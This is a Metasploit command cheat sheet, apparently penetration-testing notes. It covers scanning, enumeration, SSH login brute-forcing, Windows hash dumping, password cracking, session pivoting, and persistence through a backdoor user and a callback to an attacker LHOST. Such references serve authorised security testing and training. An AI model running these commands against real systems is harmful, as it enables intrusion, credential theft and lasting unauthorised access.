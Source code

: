 # Metasploit

`Initial Commands`

    msfdb reinit

`Check DB Status`

    db_status

`Create New Workspace`

    workspace -a <name>

`Nmap Scan Through MSF`

    db_nmap -T4 -A -vv -n <IP/CIDR> -p <PortRange> [-Pn, --script=vuln, --script=discovery]

------

> ## **Searching Modules**

    search type:(auxiliary/post/exploit) port:(#) platform:(windows/linux) [service]

------

> ## **Modules**

### **Post Modules**

`Hashdump` 

    msf > run post/windows/gather/hashdump

or

    msf > run post/windows/gather/smart_hashdump


`Post Modules on a Backgrounded Session`

    msf > use post/windows/gather/hashdump
    msf > show options
    msf > set SESSION 1

### **Auxiliary Modules**

`SSH Login`

    msf > use scanner/ssh/ssh_login
    
`Port Scanner`

    msf > use auxiliary/scanner/portscan/tcp
    msf > set RHOSTS 10.10.10.0/24

`DNS Enumeration`

    msf > use auxiliary/gather/dns_enum
    msf > set DOMAIN target.tgt

`FTP Server`

    msf > use auxiliary/server/ftp
    msf > set FTPROOT /tmp/ftproot

`Proxy Server`

    msf > use auxiliary/server/socks4

`SMB Enumeration`

    msf > auxiliary/scanner/smb/smb_version

`Password Cracking`

    msf > run auxiliary/analyze/jtr_crack_fast

------

> ## **Sessions**

`Single Session Exploitation`

Run the exploit expecting a single session that is
immediately backgrounded:

    msf > exploit -z

`Multiple Session Exploitation`

Run the exploit in the background expecting one or
more sessions that are immediately backgrounded:

    msf > exploit –j

`List all Current Jobs`

    msf > jobs –l

`Kill a Job`

    msf > jobs –k [JobID]

`List All Backgrounded Sessions`

    msf > sessions -l

`Interact With a Backgrounded Sessions`

    msf > session -i [SessionID]

`Background the Current Interactive Session`

    meterpreter > <Ctrl+Z>

**or**

    meterpreter > background

`Routing Through Sessions`

All modules (exploits/post/aux) against the target subnet mask will be pivoted through this session:  

    msf > route add [Subnet to Route To] [Subnet Netmask] [SessionID]

------

> ## **Persistence from Meterpreter**

`Windows`

    run getgui -e -u [username] -p [password]

`Linux`

    run persistence -X -i 60 -p 5000x -r [LHOST]